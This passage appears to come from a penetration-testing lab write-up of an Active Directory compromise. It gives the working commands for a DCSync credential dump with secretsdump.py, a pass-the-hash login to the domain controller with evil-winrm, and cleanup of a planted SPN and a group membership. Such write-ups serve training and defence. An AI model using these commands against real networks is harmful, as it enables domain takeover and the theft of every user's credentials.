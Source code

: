 ## 🔄 DCSync Attack Execution

### 💎 NTDS Database Extraction
```bash
# Complete domain credential dump
proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm

# Expected output:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets

# Key accounts extracted:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[DOMAIN_ADMIN_HASH]
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[KRBTGT_HASH]
[ALL_DOMAIN_USERS]:[RESPECTIVE_HASHES]
```

### 👑 Domain Administrator Access
```bash
# Pass-the-Hash authentication to DC
proxychains evil-winrm -i 172.16.8.3 -u Administrator -H [DOMAIN_ADMIN_HASH]

# Verification:
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
inlanefreight\administrator

# Domain Controller access confirmed:
hostname → DC01
ipconfig → 172.16.8.3 (Domain Controller)
```

## 🎯 Post-Compromise Activities

### 📊 Complete Domain Control Validation
```cmd
# Domain Administrator capabilities:
- Complete Active Directory control
- All user account access
- Group Policy modification rights
- Trust relationship management
- Certificate Authority access (if present)

# Evidence collection priorities:
- Screenshot of Domain Controller access
- NTDS database dump completion
- Administrative command execution proof
- Network topology confirmation
```

### 🔒 Cleanup and Documentation
```powershell
# Remove fake SPN (operational security)
Set-DomainObject -credential $Cred -Identity ttimmons -Clear serviceprincipalname -Verbose

# Remove from Server Admins group
Remove-DomainGroupMember -Identity "Server Admins" -Members 'ttimmons' -Credential $timcreds -verbose

# Document all changes:
- Fake SPN creation and removal
- Group membership modifications
- Password changes performed
```